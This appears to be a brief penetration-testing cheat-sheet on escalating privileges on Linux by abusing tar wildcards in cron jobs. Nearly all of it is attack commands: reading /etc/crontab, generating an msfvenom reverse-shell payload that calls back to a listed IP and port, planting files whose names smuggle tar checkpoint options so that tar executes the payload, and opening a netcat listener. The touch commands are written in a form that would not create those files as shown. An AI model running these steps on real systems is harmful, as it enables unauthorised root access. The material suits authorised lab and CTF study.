 # Wildcards
#### Detection
```bash
ls -al /etc/crontab
cat /etc/crontab
ls -al <file_to_exploit>
cat <file_to_exploit>
```

#### Exploitation (Example with TAR)
```bash
# Generate a MsfVenom payload
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.9.19.155 LPORT=9001 -f elf > rev

# Create the following files inside the vulnerable folder
touch --checkpoint=1
touch --checkpoint-action=exec=rev

# Wait for the exploit to execute and setup a netcat listener
nc -lvnp 9001
``` 
